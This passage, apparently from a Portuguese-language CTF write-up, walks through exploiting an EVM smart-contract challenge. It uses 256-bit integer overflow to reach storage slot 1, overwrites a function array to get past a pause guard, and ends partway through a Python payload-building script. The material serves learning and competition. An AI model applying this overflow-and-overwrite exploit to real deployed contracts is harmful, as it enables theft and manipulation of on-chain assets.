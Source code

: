 Temos que achar um número `idx` tal que 
`slot_hash + (2 * idx) + 1`
seja `1`.
Isso a princípio parece impossível porque
a única solução seria `idx = 0`
com `slot_hash = 0`,
e a gente não controla `slot_hash`,
ele é um número gigante full aleatório.
Parece impossível,
mas só até você lembrar
que estamos no mundo dos computadores,
especificamente na EVM,
onde `2^256 = 0`.
Sim, eu estou falando de overflows.
Nós vamos transbordar `(2^256)-1`
e fazer o número dar a volta e cair exatamente em `1`.

A conta é bem tranquila de fazer com a shell do Python.
`m` é o maior número possível na EVM (256 bits) e
`h` é o `slot_hash` (peguei usando o debugger).
```
>>> m = (2**256)-1
>>> h = int("405787fa12a823e0f2b7631cc41b3ba8828b3321ca811111fa75cd3aa3bb5ace",16)
>>> (m-h)//2 + 1
43344706377821576760468996987613231211325356002982170351334206299952371618457
>>> hex(_)
'0x5fd43c02f6abee0f86a44e719df2622bbeba666f1abf777702c51962ae225299'
```

E assim,
`43344706377821576760468996987613231211325356002982170351334206299952371618457`
é o nosso número mágico
que vai colocar `1` no primeiro argumento do `sstore`.

# Finalizando

Nosso payload final vai ser o seguinte então:
1. `create_evil_animal` - Criamos um animal cujo `idx` é o endereço do seu nome. No nome, colocamos o número mágico.
2. `create_empty_animals` - Criamos vários animais vazios pra incrementar `animal_count`.
3. `overwrite_ret` - Usamos a edição de nome pra sobrescrever o array `functions`, bypassando o `whenNotPaused`.

O payload é longuinho e fazer tudo na mão seria tedioso,
então eu fiz um script pra montar ele bonitinho:
```
#!/usr/bin/env python3

def overwrite_ret():
    op = "20"
    idx = "07"
    edit = "21"
    free = (30 * "00") + "ffff"
    ret = (30 * "00") + "0323"

    write = free + (32 * "00") + (31 * "00" + "01") + ret
    write_len = f"{len(write) // 2:04x}"

    payload = op + idx + edit + write_len + write
    return payload

def create_evil_animal():
    op = "10"
    idx = "00"
    index = "0320"
```
